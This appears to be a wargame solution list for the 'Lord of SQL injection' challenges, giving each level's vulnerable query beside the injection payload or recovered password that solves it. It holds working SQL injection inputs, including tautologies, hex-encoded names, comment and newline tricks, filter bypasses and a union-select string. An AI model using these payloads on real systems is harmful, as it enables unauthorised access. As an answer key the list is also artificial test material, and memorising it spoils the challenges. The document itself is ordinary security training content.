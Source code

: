 # Lord-of-Sql-injection

gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


succubus(pass)

nightmare(pass)


xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii


dragon

prob : select id from prob_dragon where id='guest'# and pw=''

solve : ?pw='%0aand pw=12311312312312 or id='admin

memo : %0a -> 줄바꿈  # -> 한줄 주석


iron_golem(error based blind)

prob : select id from prob_iron_golem where id='admin' and pw=''

solve : ?pw=06b5a6c16e8830475f983cc3a825ee9a


dark_eyes(error based blind)

prob : select id from prob_dark_eyes where id='admin' and pw=''

solve : ?pw=5a2f5d3c


hell_fire(error based blind)

prob : select id,email,score from prob_hell_fire where 1 order by

solve : ?pw=admin_secure_email@emai1.com


green_dragon

prob : 

solve : 

memo : id=/&pw=union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)